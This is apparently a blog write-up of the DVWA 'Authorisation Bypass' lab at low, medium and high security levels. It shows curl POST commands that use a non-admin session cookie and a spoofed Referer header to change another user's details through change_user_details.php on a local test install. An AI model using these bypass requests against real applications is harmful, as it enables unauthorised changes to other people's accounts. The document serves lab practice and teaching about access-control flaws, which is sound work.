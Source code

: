 +++
date = '2025-10-16T14:14:20+07:00'
title = 'DVWA Authorisation Bypass Low/Medium/High Security'
draft = false
tags = ['Crew CTF 2025', 'DVWA']
description = 'Leveraging vulnerabilities to get access to user manager system.'

[cover]
  image = '/images/posts/dvwa-authorisation-bypass.jpg'
  alt = 'DVWA Authorisation Bypass'
  caption = 'DVWA Authorisation Bypass'
  relative = false
+++

## Description

-   **Vulnerability:** Authorisation Bypass
-   **Impact:** Leveraging vulnerabilities to get access to user manager system.

---

## LOW Security Level

The source code doesn't have any checks. You can use `gordonb / abc123` this account (this is not an admin account). Since the source code doesn't have any checks so we can just access to the URL: http://localhost/DVWA/vulnerabilities/authbypass/

![Guide image](/images/posts/dvwa-authorisation-bypass-1.png)

## MEDIUM Security Level

The source code now updated with a check:

```php
/*

Only the admin user is allowed to access this page.

Have a look at these two files for possible vulnerabilities:

* vulnerabilities/authbypass/get_user_data.php
* vulnerabilities/authbypass/change_user_details.php

*/

if (dvwaCurrentUser() != "admin") {
    print "Unauthorised";
    http_response_code(403);
    exit;
}
```

Let's take a look at those 2 files, visit `get_user_data.php` we got:

```json
[
    { "user_id": "1", "first_name": "admin", "surname": "admin" },
    { "user_id": "2", "first_name": "Gordon", "surname": "Brown" },
    { "user_id": "3", "first_name": "Hack", "surname": "Me" },
    { "user_id": "4", "first_name": "Pablo", "surname": "Picasso" },
    { "user_id": "5", "first_name": "Bobbbb", "surname": "Smith" }
]
```

And visit `change_user_details.php` got:

```json
{ "result": "fail", "error": "Only POST requests are accepted" }
```

You can see that we doesn't got any error Unauthourised so this is the vulnerability that API call doesn't check accounts.

Make a POST request `curl -X POST "http://localhost/DVWA/vulnerabilities/authbypass/change_user_details.php" -b "PHPSESSID=<NON_ADMIN_PHPSESSID>"` to `change_user_details.php`, got:

```json
{ "result": "fail", "error": "Access denied" }
```

For somehow, when I make request normally on browser I don't get that message, however when I make a request through `curl` I got `Access denied`. So I do some investigate with the `admin` account and found that the request with admin account go with a header `Referer: http://localhost/DVWA/index.php` so I add it to my command:

```bash
curl -X POST "http://localhost/DVWA/vulnerabilities/authbypass/change_user_details.php" -b "PHPSESSID=3ce91c8cfb7a6ad94efcd2cb696b8eb3;security=medium" -H "Referer: http://localhost/DVWA/index.php"
```

I don't get `Access denied` so I have passed the check, now pass a correct format to update user details:

```bash
curl -X POST "http://localhost/DVWA/vulnerabilities/authbypass/change_user_details.php" -b "PHPSESSID=3ce91c8cfb7a6ad94efcd2cb696b8eb3;security=medium" -H "Referer: http://localhost/DVWA/index.php" H "Content-Type: application/json" -d '{"id": 5, "first_name": "Bob", "surname": "Smith"}'
```

Got:

```json
{ "result": "ok" }
```

![Guide image](/images/posts/dvwa-authorisation-bypass-2.png)

## HIGH Security Level

The source code:

```php
/*

Only the admin user is allowed to access this page.

Have a look at this file for possible vulnerabilities:

* vulnerabilities/authbypass/change_user_details.php

*/

if (dvwaCurrentUser() != "admin") {
    print "Unauthorised";
    http_response_code(403);
    exit;
}
```

For somehow, I can still change user data in HIGH Security Level by commands used in MEDIUM:

-   Change user details

```bash
curl -X POST "http://localhost/DVWA/vulnerabilities/authbypass/change_user_details.php" -b "PHPSESSID=3ce91c8cfb7a6ad94efcd2cb696b8eb3;security=high" -H "Referer: http://localhost/DVWA/index.php" H "Content-Type: application/json" -d '{"id": 5, "first_name": "Bob", "surname": "Smith"}'
```

This can be used maybe because the developer forgot to check on POST request.
